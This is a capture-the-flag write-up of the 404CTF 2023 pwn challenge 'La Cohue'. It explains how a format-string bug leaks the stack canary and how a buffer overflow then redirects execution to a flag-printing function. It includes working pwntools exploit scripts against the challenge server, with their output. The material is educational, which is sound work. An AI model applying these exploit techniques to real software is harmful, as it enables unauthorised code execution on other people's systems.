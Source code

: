 ```yaml
---
title: CTFs | 404CTF2023 | PWN |La-Cohue
author: Kaiba_404
date: 2023-06-07
categories: [CTFs, 404CTF2023, PWN]
tags: [CTF, 404CTF2023, pwn]
permalink: /CTFs/404CTF2023/pwn/lacohue
---
```



# La Cohue


![la_cohue](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/a853e57b-5ee3-429a-ae13-2eced0433113)

The challenge gives us an ELF file [la_cohue](https://github.com/CongKhaiNGUYEN/congkhainguyen.github.io/tree/main/_posts/CTFs/404CTF2023/pwn/files/la_cohue). Using the command `file la_cohue` and `checksec la_cohue` to get some infomations about it.

```shell
$ file la_cohue 
la_cohue: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=56ad00dfd261c3bad8d131b25708d9c7e861ccda, not stripped
```
```shell
$ checksec la_cohue
[*] '~/404CTF/la_cohue'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

```
From the provided commands output, we can gather some interesting information about the file. It is identified as an "ELF 64-bit" file and it appears to be "not stripped". It's protected by `NX` (We can't run the shellcode by injecting it into the stack) and `Canary found` (That is to say that this file has canary in the stack when executing). To further analyze the file and gather more information for potential exploitation, we can utilize Ghidra, a powerful reverse engineering tool. Ghidra will allow us to read and analyze the file, providing deeper insights into its structure and functionality.

![main_cohue](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/a080a22c-87ff-48f0-ac23-75ecc80ecebe)

The `main` function isn't all that interesting, so we'll take a look at the `choice` function.

![choice_cohue](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/33f91c60-1caa-4d1f-ab0e-c82c4092e87f)

Based on the information available, it appears that the mentioned function is vulnerable to two specific types of attacks: Format String Vulnerability and Return-Oriented Programming (ROP) as shown in the images below.

***Format String Vuln***

![fmt_str](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/b0d89299-f5fa-44c8-b836-2d209ec44009)

***ROP***

![size_cohue](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/250fc6be-ba32-4ca3-b70e-06c9cb5bc0da)

![ROP_cohue](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/1defc0f7-8d3b-490f-a4d1-34546889814a)

We also find a very interesting function in this ELF file. It's the `canary()` function. When invoked, this function will provide us with the flag. It suggests that calling this specific function is crucial to obtaining the desired flag.

![canary_func](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/6e9577e4-982e-4e1b-939e-0b39e4e82c04)

## Exploit Scenario

**Step 1**: Taking advantage of the Format String vulnerability to leak `canary` (Canary is an 8 byte hexa number that always ends with two zeros and the rest of the numbers change randomly each time we execute the  ELF file)

**Step 2**: After successfully leaking the canary value, we can proceed to bypass the canary binary protection. We have identified that the ELF file lacks Position Independent Executable (PIE) protection, meaning that the address of each instruction remains the same every time the program is launched. Leveraging this knowledge, we can employ Return-Oriented Programming (ROP) techniques.

To call the canary() function using ROP, we can construct a payload with the following format:

`payload = 'A'*72 + canary + 'B'*8 + address_of_canary_function
`

## Code 

### fuzz.py - leak canary

If you know about the format string attack, you will know that each %p or %x will lead to reading the stack to the higher address. This means that if we spam a lot of %x or %p, we will eventually read the return address of the current function and also the canary. (But at the moment we don't need the address of current function)

Therefore, we can leak the return address using the code below. I split each %p so that I can split them and then use a FOR loop to know which index of %p contains the canary.

```python
from pwn import *

context.update(arch="amd64", os="linux")

# r = process("./la_cohue")
r = remote("challenges.404ctf.fr", 30223)

r.recvuntil(b">>>")
r.sendline(b'2')
p_A = b""
p50_p = b" %p" * 20
r.sendline(p_A + p50_p)
r.recvuntil(b"[Vous] : ")
result = str(r.recvline()).split(' ')
for i in range(len(result)):
	print("[" + str(i) + "]: " + result[i])
	
r.close()
```

```shell
[+] Opening connection to challenges.404ctf.fr on port 30223: Done
[0]: b'
[1]: 0x7ffce2c08980
[2]: 0x7f88d94cf8c0
[3]: (nil)
[4]: 0x9
[5]: 0x7f88d94cf8d0
[6]: (nil)
[7]: 0x20000e760
[8]: 0x2520702520702520
[9]: 0x2070252070252070
[10]: 0x7025207025207025
[11]: 0x2520702520702520
[12]: 0x2070252070252070
[13]: 0x7025207025207025
[14]: 0x2520702520702520
[15]: 0xa70252070
[16]: 0x7ffce2c0b0a0
[17]: 0x3ac7b7ded693ef00
[18]: 0x7ffce2c0b0a0
[19]: 0x400b06
[20]: 0x7ffce2c0b188\n'
[*] Closed connection to challenges.404ctf.fr port 30223
```

After running the file multiple times, we have observed that the canary is located at position [17]. Based on this information, we can construct the exploit program as follows:

```python
from pwn import *

context.arch = "amd64"
context.os = "linux"

# p = process("./la_cohue")
p = remote("challenges.404ctf.fr", 30223)

p.recvuntil(b">>>")
p.sendline(b"2")
# After using fuzz.py, We know that canary is located at 17th postions. Consequently, use directly %17$p to leak the 17th postion
p.sendline(b'%17$p')
re_cana = p.recvuntil(b'Que')[9:-5]
canary = int(re_cana.decode(),16)
log.success(f'Canary: {hex(canary)}')


p.recvuntil(b">>>")
p.sendline(b'1')
p.recv()
# the payload has the form 'A'*72 (to reach the canary) + canary + 8 bytes to overwrite the `old rbp` + return address
p.sendline(b'A'*72+p64(canary)+b'B'*8+p64(0x400877))
p.recv()
p.sendline(b'3')
print(p.recvall().decode())
```

```
[+] Opening connection to challenges.404ctf.fr on port 30223: Done
[+] Canary: 0x5daaac6def037000
[+] Receiving all data: Done (321B)
[*] Closed connection to challenges.404ctf.fr port 30223
[Francis] : Je vous laisse mettre votre plan à éxécution.

Que faites-vous ?

1 : Aller voir Francis
2 : Réfléchir à un moyen de capturer le canari
3 : Vaquer à vos occupations
>>> Je vous suis infiniment reconnaissant d'avoir retrouvé mon canari.
404CTF{135_C4N4r15_41M3N7_14_C0MP46N13_N3_135_141553Z_P45_53U15}
```


**Flag:** `404CTF{135_C4N4r15_41M3N7_14_C0MP46N13_N3_135_141553Z_P45_53U15}`
